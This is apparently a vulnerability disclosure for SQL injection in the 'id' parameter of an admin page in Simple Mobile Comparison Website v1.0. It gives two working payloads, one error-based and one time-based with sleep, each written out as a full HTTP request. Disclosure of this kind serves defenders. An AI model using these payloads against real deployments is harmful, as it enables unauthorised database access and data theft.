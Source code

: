 # Simple Mobile Comparison Website v1.0 has SQL injection

BUG_Author:Houguo Xi

Website source address:https://www.sourcecodester.com/php/15186/simple-mobile-comparison-website-phpoop-free-source-code.html

Vulnerability File: /mcw/admin/fields/manage_field.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=1' and (select 1 from(select count(*),concat(0x51525354,(select (elt(111=111,1))),0x66676869,floor(rand(0)*2))x from information_schema.plugins group by x)a) and 'm'='m

```
GET /mcw/admin/fields/manage_field.php?id=1%27%20and%20(select%201%20from(select%20count(*),concat(0x51525354,(select%20(elt(111=111,1))),0x66676869,floor(rand(0)*2))x%20from%20information_schema.plugins%20group%20by%20x)a)%20and%20%27m%27=%27m HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=jqeunca8s853cqfdr18lvheru5
Connection: close
```

Injection success based on errors

![image](https://github.com/LOBSSSA5DD5/bug_report/blob/main/sql1.png)

Payload2:id=1' and (select 2 from (select(sleep(15)))m) and 'a'='a

```
GET /mcw/admin/fields/manage_field.php?id=1%27%20and%20(select%202%20from%20(select(sleep(15)))m)%20and%20%27a%27=%27a HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=jqeunca8s853cqfdr18lvheru5
Connection: close
```

![image](https://github.com/LOBSSSA5DD5/bug_report/blob/main/sql2.png)

